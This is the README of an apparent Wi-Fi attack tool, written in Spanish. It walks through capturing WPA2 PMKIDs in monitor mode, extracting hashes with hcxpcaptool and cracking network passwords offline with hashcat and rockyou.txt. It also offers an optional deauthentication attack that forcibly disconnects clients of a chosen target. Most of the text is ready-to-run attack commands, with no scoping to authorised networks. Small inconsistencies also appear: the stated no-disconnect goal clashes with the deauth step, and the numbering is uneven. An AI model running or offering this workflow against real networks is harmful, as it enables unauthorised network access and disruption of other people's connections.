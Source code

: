 ## Objetivo
Sin desconectar al cliente, capturar la PMKID que el punto de acceso (AP) 
envía durante cada asociación y crackearla sin conexión.

## Requisitos
- Python 3.x  
- `wpa2_lab.py` (este repositorio)  
- Adaptador Wi-Fi capaz de modo monitor  
- Herramientas externas:
  - `hcxdumptool` (incluye `hcxpcaptool`)
  - `hashcat` (v6.2 o superior)  
- Diccionario de contraseñas (ej. `/usr/share/wordlists/rockyou.txt`)  
- Permisos de super-usuario para operaciones con interfaz Wi-Fi  

## Instalación rápida
Clonar el repositorio y situarse en la carpeta:

```bash
git clone https://github.com/tu-usuario/wpa2lab.git
cd wpa2lab
```

Asegúrate de que `wpa2_lab.py` sea ejecutable:

```bash
chmod +x wpa2_lab.py
```
Opcional: crea un venv y activalo antes de instalar requisitos. 

```bash
source venv/bin/activate 
```

## Uso exprés (menú interactivo)

Lanza el menú gráfico:

```bash
sudo ./wpa2_lab.py
```
![Menú principal](docs/img/menu.png)

Un flujo típico sería 1 → 4 → 5 → 6 → 7.
(Monitor → Scan → Capture → Extract → Crack).

## Guía de uso exprés con comandos

### 1. Poner la tarjeta en modo monitor

```bash
sudo ./wpa2_lab.py prepare 
```
###  Levantar AP en wlan

```bash
sudo ./wpa2_lab.py ap --ap 
```

### 2. Capturar la PMKID

```bash
sudo ./wpa2_lab.py capture
# Capturando PMKID en wlan1mon → dump.pcapng
# (Pulsa Ctrl-C para detener la captura)
```

Esto genera un archivo `dump.pcapng` con todas las asociaciones 
AP↔cliente y los PMKID correspondientes.

### 3. Extraer el hash para Hashcat

```bash
sudo ./wpa2_lab.py extract
# Extrae hash → hash.22000
```

Internamente se ejecuta:

```bash
hcxpcaptool -z hash.22000 dump.pcapng
```

### 4. Crackear sin conexión

```bash
sudo ./wpa2_lab.py crack
```

Que lanza automáticamente:

```bash
hashcat -m 22000 hash.22000 /usr/share/wordlists/rockyou.txt
```

## 5. Ataque de desautenticación (opcional)

Si no hay tráfico y ningún cliente se asocia al AP, puedes forzar una 
reasociación enviando paquetes de desautenticación:

```bash
sudo ./wpa2_lab.py deauth
```
Esto envía paquetes deauth al objetivo seleccionado, provocando que
los clientes se desconecten y vuelvan a asociarse, momento en el cual
el AP volverá a enviar el PMKID (ideal para capturarlo).

## ¿Cómo funciona el ataque de diccionario?
Hashcat recorre cada contraseña del fichero elegido (en el ejemplo 
`rockyou.txt`) y calcula la clave maestra necesaria para verificar si 
coincide con el hash PMKID extraído.  
Si la clave WPA2 de la red está dentro del diccionario, Hashcat la
descubrirá y la mostrará en pantalla.

## Archivos generados
- **dump.pcapng** – Captura de tráfico con PMKID  
- **hash.22000**  – Hash listo para Hashcat (formato modo 22000)

## Opciones adicionales
Todos los subcomandos aceptan `-h / --help` para ver parámetros 
opcionales como interfaz de captura, canal, salida personalizada, 
métodos de ataque, etc.
